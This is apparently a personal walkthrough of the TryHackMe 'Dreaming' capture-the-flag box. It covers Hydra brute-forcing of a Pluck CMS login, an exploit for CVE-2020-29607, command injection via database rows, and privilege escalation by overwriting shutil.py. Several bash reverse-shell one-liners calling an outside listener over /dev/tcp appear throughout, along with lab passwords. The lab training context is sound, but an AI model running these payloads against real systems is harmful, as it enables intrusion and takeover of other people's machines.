<div align="center">


# Dreaming

**Difficulty:** Easy    
**Category:** Web & DB

</div>

---


Apace 2.4.41

pluck 4.7.13
* CVE-2020-29607

When logged in as Admin I can bypass file upload restriction.
Hydra now?

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.80.163.194 http-post-form "/app/pluck-4.7.13/login.php/:cont1=^PASS^&bogus=""&submit=^Log in^:Password incorrect"
```


admin:password

Now for the CVE
https://www.exploit-db.com/exploits/49909

I ran the code with:
```bash
python3 exploit.py 10.80.163.194 80 password /app/pluck-4.7.13/
```



I go to that URL:



This webshell is crazy??

mysql
.wget-hsts






```bash
cat /var/www/html/app/pluck.../data/settings/pass.php
b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86
```

```bash
cat /opt/test.py # Owned by Lucien
# THERE IS ALSO A FILE:
/opt/getDreams.py

password:HeyLucien#@1999!
```


```bash
ucien@ip-10-80-163-194:/opt$ cat getDreams.py
cat getDreams.py
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()
```

I notice Lucien has a file `authorized_keys` in his ssh directory.

On kali:
```bash
ssh-keygen
ssh-copy-id lucien@10.80.163.194
# Enter password HeyLucien#@1999!
ssh lucien@10.80.163.194
```
^ This command I learned from Niklas Gertoft (ssh-cop-ip)


```bash
cat lucien_flag.txt
THM{TH3_L1BR4R14N}
```

```bash
sudo -l
```




```bash
cat ~/.bash_history
```



Lucien mysql password: lucien42DBPASSWORD


The other script that was in `/opt/getDreams.py`:
```python
import mysql.connector
import subprocess

# MySQL credentials
DB_USER = "death"
DB_PASS = "#redacted"
DB_NAME = "library"

import mysql.connector
import subprocess

def getDreams():
    try:
        # Connect to the MySQL database
        connection = mysql.connector.connect(
            host="localhost",
            user=DB_USER,
            password=DB_PASS,
            database=DB_NAME
        )

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()

```

```python
query = "SELECT dreamer, dream FROM dreams";
cursor.execute(query)
dreams_info = cursor.fetchall()

for dream_info in dreams_info:
	dreamer,dream = dream_info
	command = f"echo {dreamer} + {dream}"
	shell = subprocess.check_output(command, text=True, shell=True)
```
These are some parts of the script.
* Take all dreams from the dreams table and execute `echo {dreamer} + {dream}"`
* This looks like its is vulnerable to SQLi.

If dreamer = `"hello"";`
And dream= `bash -i >& /dev/tcp/192.168.135.169/1234 0>&1; echo ""` 

```MySQL
INSERT INTO dreams (dreamer,dream) VALUES ('hello','; bash -c "bash -i >& /dev/tcp/192.168.135.169/1234 0>&1" #')
```

This will turn the resulting command into:
```bash
echo hello + ; bash -c "bash -i >& /dev/tcp/192.168.135.169/1234 0>&1" # aaa
# Commenting out everything after aswell.
```


This worked!
```bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```
With:



(The bottom one is correct)


```bash
cat death_flag.txt
> THM{1M_<REDACTED>_TH3M}
```




Im guessing this has to something to do with the morpheus flag.

I have the password for death to the db: `!mementoMORI666!`.

#AfterReview **Steal this strategy, always use this when getting onto a box**
This guy uses this as part of his "standard enumeration" techniques:
```bash
find / -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/home/death/*" -writable 2>/dev/null
```
These are what files we have write access to, ignoring the directories: 
* /home/death
* /proc/*
* /sys/*



We can write to a python library `shutil.py`.

```python
import os; os.system('bash -c "bash -i >& dev/tcp/192.168.135.169/1235 0>&1"')
```

```bash
echo 'import os; os.system("bash -i >& /dev/tcp/192.168.135.169/1235 0>&1")' > /usr/lib/python3.8/shutil.py
```


Won't this break the script?
```python
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```
This is the script from `restore.py`, owned by Morpheus.


I got this error in the terminal for death??
```error
cant /etc/cron.weekly/man-db
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.6 LTS
Release:        20.04
Codename:       focal
Sorry, command-not-found has crashed! Please file a bug report at:
https://bugs.launchpad.net/command-not-found/+filebug
Please include the following information with the report:

command-not-found version: 0.3
Python version: 3.8.10 final 0
Exception information:

invalid syntax (shutil.py, line 1)
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/CommandNotFound/util.py", line 23, in crash_guard
    callback()
  File "/usr/lib/command-not-found", line 90, in main
    cnf = CommandNotFound.CommandNotFound(options.data_dir)
  File "/usr/lib/python3/dist-packages/CommandNotFound/CommandNotFound.py", line 76, in __init__
    self.sources_list = self._getSourcesList()
  File "/usr/lib/python3/dist-packages/CommandNotFound/CommandNotFound.py", line 138, in _getSourcesList
    from aptsources.sourceslist import SourcesList
  File "/usr/lib/python3/dist-packages/aptsources/sourceslist.py", line 32, in <module>
    import shutil
  File "/usr/lib/python3.8/shutil.py", line 1
    import os; os.system("bash -c "bash -i >& dev/tcp/192.168.135.169/1235 0>&1"")
```

There is a typo in the command, fix with `"` and `'`.

```bash
echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/192.168.135.169/1235 0>&1'\")" > /usr/lib/python3.8/shutil.py
```
NICE



All sudo commands with NOPASSWD GG

Morph flag:
```flag
THM{DR34M<REDACTED>_W0RLD}
```


```bash
bash -c "bash -i >& /dev/tcp/192.168.135.169/1234 0>&1"
```

* &0 stdin
* &1 stdout
"Read from stdin and output to stdout"

```bash
bash -c "bash -i >& /dev/tcp/192.168.135.169/1234 0>&1"
```


#AfterReview **Do this box again, it was very tricky!**
